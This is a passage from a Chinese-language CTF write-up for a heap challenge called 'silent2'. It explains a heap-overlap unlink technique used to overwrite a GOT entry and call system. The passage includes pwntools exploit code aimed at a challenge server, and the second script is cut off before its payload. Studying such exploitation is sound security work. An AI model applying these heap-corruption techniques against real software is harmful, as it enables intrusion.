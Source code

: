```python

pay = '$0'+'\x00'*12 + p64(system_plt)
add(0x50,pay)#5

free(5)
cn.interactive()
```

### pwn - silent2

和silent唯一不同就是malloc的时候加了大小限制

可以用heap overlap来做unlink

先分配3个0x80,free掉前两个,然后malloc一个0x110就能overlap

然后通过unlink去改chunklist指针,再通过构造的任意指针去改got

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./silent2')
	bin = ELF('./silent2')
else:
	cn = remote('39.107.32.132', 10001)
	bin = ELF('./silent2')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def sd(s):
	sleep(0.1)
	cn.send(s)

def sl(s):
	sleep(0.1)
	cn.sendline(s)

def add(size,con):
	sl('1')
	sl(str(size))
	sd(con)

def free(idx):
	sl('2')
	sl(str(idx))

def edit(idx,con,con2):
	sl('3')
	sl(str(idx))
	sd(con)
	sd(con2)

chunklist=0x6020C0

system_plt=0x400730
```